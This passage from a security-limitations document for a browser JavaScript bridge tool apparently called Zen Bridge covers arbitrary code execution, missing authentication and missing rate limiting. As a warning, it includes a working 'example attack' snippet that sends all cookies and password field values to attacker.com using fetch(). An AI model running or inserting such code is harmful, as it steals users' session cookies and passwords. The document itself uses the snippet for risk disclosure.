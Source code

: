 ## Known Limitations

### 1. Arbitrary JavaScript Execution

**By design**: Zen Bridge executes arbitrary JavaScript.

**Implications**:

- Can steal session cookies
- Can submit forms, make purchases
- Can read sensitive page content
- Can modify DOM, inject content
- Can make network requests

**Example attack**:

```javascript
// Steal all cookies
document.cookie.split(';').forEach(cookie => {
    fetch('https://attacker.com/steal?c=' + encodeURIComponent(cookie));
});

// Steal form data
document.querySelectorAll('input[type=password]').forEach(input => {
    fetch('https://attacker.com/steal?pwd=' + input.value);
});
```

**Defense**: Only run JavaScript you trust and understand.

### 2. No Authentication

**Current status**: Any local process can use bridge.

**Implications**:

- Local malware can execute JavaScript
- Other users on same machine can use bridge
- No audit of who executed what

**Acceptable because**:

- Localhost-only reduces exposure
- Compromised machine has bigger problems
- User controls when server runs

**Future enhancement**: Optional token authentication.

### 3. No Rate Limiting

**Current status**: No limits on request rate.

**Implications**:

- Buggy script can spam requests
- Could cause high CPU in browser
- Could cause memory buildup
